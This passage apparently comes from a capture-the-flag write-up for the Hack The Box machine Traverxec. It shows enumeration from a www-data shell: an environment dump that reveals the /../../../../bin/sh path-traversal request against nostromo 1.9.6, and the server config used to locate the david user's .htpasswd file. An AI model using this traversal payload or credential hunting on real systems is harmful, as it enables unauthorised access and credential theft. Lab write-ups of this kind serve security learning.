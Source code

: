 ```
export TERM=xterm
```

## Enumeration on the box
environment variables point to config files for the web server
```
www-data@traverxec:/var/nostromo/conf$ env
SERVER_NAME=traverxec.htb
SCRIPT_NAME=/../../../../bin/sh
GATEWAY_INTERFACE=CGI/1.1
SERVER_SOFTWARE=nostromo 1.9.6
DOCUMENT_ROOT=/var/nostromo/htdocs
PWD=/var/nostromo/conf
REQUEST_URI=/../../../../bin/sh
SERVER_SIGNATURE=<address>nostromo 1.9.6 at 10.10.10.165 Port 80</address>
REMOTE_PORT=54407
TERM=xterm
SERVER_ADMIN=david@traverxec.htb
SERVER_ADDR=127.0.1.1
SHLVL=1
CONTENT_LENGTH=1
SERVER_PROTOCOL=HTTP/1.1
SERVER_PORT=80
SCRIPT_FILENAME=/var/nostromo/htdocs/../../../../bin/sh
REMOTE_ADDR=10.10.14.31
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
REQUEST_METHOD=POST
_=/usr/bin/env
OLDPWD=/var/nostromo
```
nhttpd.conf points to password files for the david user:
```
www-data@traverxec:/var/nostromo/conf$ cat nhttpd.conf 
# MAIN [MANDATORY]

servername              traverxec.htb
serverlisten            *
serveradmin             david@traverxec.htb
serverroot              /var/nostromo
servermimes             conf/mimes
docroot                 /var/nostromo/htdocs
docindex                index.html

# LOGS [OPTIONAL]

logpid                  logs/nhttpd.pid

# SETUID [RECOMMENDED]

user                    www-data

# BASIC AUTHENTICATION [OPTIONAL]

htaccess                .htaccess
htpasswd                /var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

/icons                  /var/nostromo/icons

# HOMEDIRS [OPTIONAL]

homedirs                /home
```